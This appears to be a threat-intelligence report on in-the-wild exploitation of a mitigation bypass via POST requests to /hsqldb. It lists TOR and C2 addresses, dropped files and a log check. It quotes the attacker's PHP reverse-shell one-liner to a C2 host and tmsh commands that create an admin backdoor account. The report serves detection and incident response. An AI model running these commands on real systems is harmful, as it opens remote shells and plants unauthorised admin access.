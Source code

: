 ## Requests

Looks for POST requests beginning with:

/hsqldb

## Timeline

First use of the mitigation bypass was seen in the wild on Jul 7, 2020 @ 12:39:32.000 (UTC)

## Targeting

We assess that the targeting was widespread. We first saw targeting in Southeast Asia, followed by further targeting in Europe later on in the day by the same actor.

## IP Addresses

Requests were made via TOR, however subsequent C2 took place to a host in South Korea.

Initial requests (TOR):

* 185.100.86[.]182
* 185.220.101[.]142

C2 address:

* 175.199.197[.]167

## Files dropped:

* /var/tmp/auth
* /tmp/nen.out
* /tmp/nen

## Commands run

`php -r '$sock=fsockopen("175.199.197[.]167",443);exec("/bin/sh -i <&3 >&3 2>&3");'`

`tmsh -c 'create auth user systems password ABcD007`

`tmsh -c 'list auth' > /var/tmp/auth`

## Backdoor account

A backdoor account named "systems" is added to the compromised device, with a password of ABcD007.

The account is created with admin privileges.

## Log artifacts

Run the following command to check the web logs:

```
journalctl /bin/logger|grep '"/hsqldb'
```

Any results are an indicator that the mitigation bypass has been attempted.
